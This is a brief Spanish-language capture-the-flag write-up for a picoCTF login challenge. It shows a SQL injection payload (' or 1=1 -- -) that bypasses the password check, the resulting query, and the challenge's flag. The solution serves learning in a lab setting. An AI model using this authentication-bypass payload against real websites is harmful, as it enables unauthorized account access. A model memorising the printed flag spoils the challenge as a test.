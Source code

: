 
## Descripción
Can you login to this website?

## Solución
Hay que hacer una inyeccion sql  or 1=1 -- -
"SQL query: SELECT * FROM users WHERE name='admin' or 1=1 -- -' AND password='123456'"
Al entrar hay que inspecciónar la pagina y estará la bandera


picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}

